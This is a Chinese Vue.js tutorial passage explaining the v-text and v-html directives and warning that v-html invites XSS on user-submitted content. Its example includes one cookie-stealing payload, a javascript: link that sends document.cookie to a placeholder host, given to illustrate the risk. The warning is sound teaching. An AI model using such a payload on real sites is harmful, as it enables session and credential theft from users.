 > 1.作用：向其坐在的节点中渲染文本内容
>
> 2.与插值语法的区别：v-text会替换掉节点中的内容，{{xxx}}则不会

### v-html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="js/vue.js"></script>
</head>
<body>

    <dv id="root"> 
        <div>{{name}}</div>
       
        <div v-html = "str"></div>
        <div v-html = "str2"></div>
    </dv>
    
</body>
<script>
    new Vue({
        el:'#root',
        data:{
            name:'lz',
            str:'<h2>你好</h2>',
            //有人搞坏事，会获取浏览器cookie数据
            str2:'<a href=javascript:location.href="http://www.xxx.com?"+document.cookie>好东西</a>'
        }
    })
</script>
</html>

```

> 1.作用：向指定节点中渲染包含html结构的内容
>
> 2.与插值语法的区别：
>
> ​	（1）v-html会替换掉节点中所有的内容，{{xxx}}则不会
>
> ​	（2）v-html可以识别html结构
>
> 3.严重注意：v-html有安全性问题！！！
>
> ​	（1）在网站上动态渲染任意html是非常危险的，容易导致XSS攻击
>
> ​	（2）一定要在可信的内容上使用v-html，永不要用在用户提交的内容上
